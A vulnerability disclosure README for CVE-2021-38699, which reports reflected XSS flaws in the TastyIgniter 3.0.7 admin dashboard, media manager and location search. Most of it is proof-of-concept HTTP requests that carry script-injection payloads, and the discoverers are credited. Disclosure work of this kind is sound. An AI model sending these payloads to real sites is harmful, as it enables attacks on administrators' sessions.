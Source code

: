 # CVE-2021-38699 : Multiple Reflected XSS in TastyIgniter v3.0.7 Restaurtant CMS

Authenticated reflected XSS exists in the TastyIgniter Admin dashboard in version 3.0.7.

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-38699

## POC:

### Admin dashboard start param:

```
POST http://cvefarm.local/admin/dashboard HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-IGNITER-REQUEST-HANDLER: charts::onFetchDatasets
X-CSRF-TOKEN: 37EWVV424abZPiH6H1L6CWZvTYhEfx3XK73Xa4A5
X-Requested-With: XMLHttpRequest
Content-Length: 81
Origin: https://cvefarm.local
Connection: keep-alive
Referer: https://cvefarm.local/admin/dashboard
Cookie: tastyigniter_session=[session/admin_session]
Host: cvefarm.local

start=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E&end=2021-08-12T12%3A48%3A16.747Z
```
![2021-08-12 17_47_46-dev-kali - VMware Workstation](https://user-images.githubusercontent.com/57866415/129274696-55bff047-b328-44bf-9a33-0ab498dd934b.png)

###  Admin dashboard end param:

```
POST http://cvefarm.local/admin/dashboard HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-IGNITER-REQUEST-HANDLER: charts::onFetchDatasets
X-CSRF-TOKEN: 37EWVV424abZPiH6H1L6CWZvTYhEfx3XK73Xa4A5
X-Requested-With: XMLHttpRequest
Content-Length: 81
Origin: https://cvefarm.local
Connection: keep-alive
Referer: https://cvefarm.local/admin/dashboard
Cookie: tastyigniter_session=[session/admin_session]
Host: cvefarm.local


start=2021-07-14T12%3A48%3A16.746Z&end=%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E
```

![image](https://user-images.githubusercontent.com/57866415/129274604-6406f542-b515-4f3a-862b-1b2246c00ad0.png)


## Media Manager path parameter

```
POST http://cvefarm.local/admin/media_manager HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-IGNITER-REQUEST-HANDLER: manager::onGoToFolder
X-CSRF-TOKEN: QVRktQkPLxizjY3vbMe2dQ5ZgZMfMalZYnQZzMes
X-Requested-With: XMLHttpRequest
Content-Length: 56
Origin: https://cvefarm.local
Connection: keep-alive
Referer: https://cvefarm.local/admin/media_manager
Cookie: tastyigniter_session=[session/admin_session]
Host: cvefarm.local

path=%22%3E%00%3Cscript%3Ealert%281%29%3B%3C%2Fscript%3E
```

## Location parameter
```
GET http://cvefarm.local/locations?search=javascript%3Aalert%281%29%3B HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 0
Referer: http://cvefarm.local/locations
Cookie: tastyigniter_session=[session]
Host: cvefarm.local
```


## Other Images
![2021-08-12 10_13_26-dev-kali - VMware Workstation](https://user-images.githubusercontent.com/57866415/129272524-16dc2e0b-191c-4c87-ae32-8cd71a4d8c61.png)
![2021-08-12 10_13_39-dev-kali - VMware Workstation](https://user-images.githubusercontent.com/57866415/129272533-1b063f32-4cac-44e7-aede-4bfda576b2c6.png)
![unknown](https://user-images.githubusercontent.com/57866415/129272541-2827d108-eb5b-4df8-aea8-4a5ebfad67b0.png)

## Discovery
August 2021
- Matt Kiely | HuskyHacks
- Justin White (https://github.com/Justin-1993/CVE-2021-38699 & https://pentesternotes.com/?p=209)

